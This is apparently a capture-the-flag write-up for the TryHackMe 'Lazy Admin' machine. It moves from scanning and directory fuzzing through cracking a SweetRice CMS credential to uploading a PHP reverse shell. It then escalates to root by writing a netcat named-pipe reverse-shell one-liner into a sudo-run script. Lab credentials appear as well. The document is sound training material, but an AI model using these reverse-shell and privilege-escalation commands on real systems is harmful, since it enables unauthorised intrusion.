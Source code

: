 ```bash
# PLATFORM          . THM
# CTF NAME          . Lazy Admin
# DESCRIPTION       . Easy linux machine to practice your skills
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/lazyadmin
```

```bash
sudo nmap -sSVC -T5 10.10.151.163 -p- -oN LazyAdmin 
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I also started `ffuf` while the `nmap` scan was running.

```bash
ffuf -u http://10.10.151.163/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- The root path on the webserver is just the default apache installation, but we hit the jackpot once we go to `/content`.

```


Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

- Fuzzing through `ip/content/FUZZ` one more time, we find additional pages:

```
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 320, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
```

- I didn't spend too much time looking in each file that I found, but here's the summary
	
	- `js` contains a bunch of `.js` (duuuh!) files I didn't take a look into.
	
	- `images` - images and `captcha.php`
	
	- `attachment` - empty
	
	- `inc` - a bunch of `.php` files ; in the `mysql_backup` we're able to find and download a `.sql` file and in the `cache` file to download `cache.db`.
	
	- `as` - Sweet Rice CMS Login Panel


- I took a look at the `mysql_backup` file and I've noticed that it is in ASCII.

```bash
file mysql_bakup_20191129023059-1.5.1.sql 

mysql_bakup_20191129023059-1.5.1.sql: PHP script, ASCII text, with very long lines (1125)
```

- Inside, we're able to find the credentials needed for the Login Panel.

![[Pasted image 20231124203720.png]]

- That is an `MD5 Hash` and represents the hash for `Password123` password. Credentials: `manager:Password123`

- I also took a look into `cache.db` because of pure curiosity, and I've noticed that `sqlite3` doesn't help.

```bash
file cache.db 

cache.db: Berkeley DB (Btree, version 9, native byte-order)
```

- After some quick reseach, I found out that I need to use have `db-utils` package installed in order to use `db_dump` on that `.db`.

```bash
db_dump cache.db 

VERSION=3
format=bytevalue
type=btree
db_pagesize=4096
HEADER=END
 64625f61727261795f3265313035323534626532656366656461626163363638363864636563396236
 313537353032333430392f
 64625f61727261795f6336656162356265366334356438613038383465646535613536633564376433
 313537353032333430392f
 64625f61727261795f6364326264313238643533396638316637326562376562363331646438306332
 313537353032333430392f
DATA=END
```

- I had no idea what this data represents, and considering that I already found the account needed, I assumed there's little need to further investigate this (most probably) rabbit hole.

- Back to our manager account, after we logged in I started looked around for a place to upload things, hopefully a reverse shell.

- I went to `General -> Dashboard` and activated the website, wanted to see how it looks like. ugly.

- I also did that because I wanted to change the default theme so instead of the content in the `main.php`, I would execute a php reverse shell.

- But then I realised I don't need an entire theme for that and I've just used [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). 

- I have uploaded the shell from the CMS, Themes menu. I added the `.php` file directly, and I took a look in `ip/content/_themes` ; there was a folder called `shell.php` (the name of my file) but it was empty ;

- The trick was to first `zip` the `shell.php` and then upload it. It was also written on the website, but meh, I didn't see it.

- Navigating to `ip/content/_themes/archive_name/shell.php` after starting a listener will grant us a reverse shell.

```
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.138.130] 55604
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:59:55 up 7 min,  0 users,  load average: 0.02, 0.31, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

- Before continuing, I want to state that there were also other methods of getting a reverse shell. Take a look at [this](https://www.exploit-db.com/exploits/40716) exploit and [this](https://www.exploit-db.com/exploits/40700) exploit. I just wanted to find other ways :D 

- Back to our fresh reverse shell - we're under `www-data` user.

- Stabilise the shell

```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

<CTRL + Z>
stty raw -echo; fg
```

- The first flag is located at `/home/itguy/user.txt`.

- A file called `mysql_login.txt` is located in the same path, but I knew these credentials from some time already. You can find them in the CMS by going to `Settings -> General`. You can even change the password of the current user, create a new site with another admin, and so on.

```
rice:randompass
```

**DISCLAIMER**:  **DO NOT** click on *Update* in the menu ; the webserver will crash :) Don't ask how I found out.

- The privilege escalation vector I found was quite straight forward. 

- The user had `sudo` permissions for `/usr/bin/perl`.

```
www-data@THM-Chal:/tmp$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- There is also a "backup" Perl script in `/home/itguy/backup.pl` 

```backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

- All I had to do was to replace the ip in the script with my own and start a listener on the port. Then, run the `backup.pl` script as `sudo`.

```bash
www-data@THM-Chal:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.53.46 5555 >/tmp/f" > /etc/copy.sh
```

```bash
www-data@THM-Chal:/tmp$ sudo /usr/bin/perl /home/itguy/backup.pl
```

- The last flag is located in `/root/root.txt` ; 